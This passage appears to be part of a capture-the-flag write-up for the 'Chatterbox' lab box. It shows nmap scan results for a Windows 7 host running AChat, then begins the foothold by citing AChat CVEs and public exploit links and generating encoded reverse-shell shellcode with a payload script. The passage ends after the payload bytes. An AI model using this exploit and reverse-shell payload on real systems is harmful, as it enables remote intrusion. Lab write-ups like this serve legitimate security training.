 ```console
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 (93%), Microsoft Windows 8.1 (93%), Microsoft Windows 8.1 Update 1 (93%), Microsoft Windows 7 Enterprise (93%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 SP1 or Windows 8.1 Update 1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold

### AChat: CVE: 2015-1578,2015-1577

> **References**:
>
> https://github.com/mpgn/AChat-Reverse-TCP-Exploit
> https://www.exploit-db.com/exploits/36025

1. Create revshell payload

```console
└─╼$ ./AChat_Payload.sh
RHOST: 10.129.22.71
LHOST: 10.10.16.24
LPORT: 1234
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 876 (iteration=0)
x86/unicode_mixed chosen with final size 876
Payload size: 876 bytes
Final size of python file: 4318 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
...
buf += b"\x32\x4a\x39\x70\x32\x33\x6b\x4f\x68\x55\x41\x41"
```
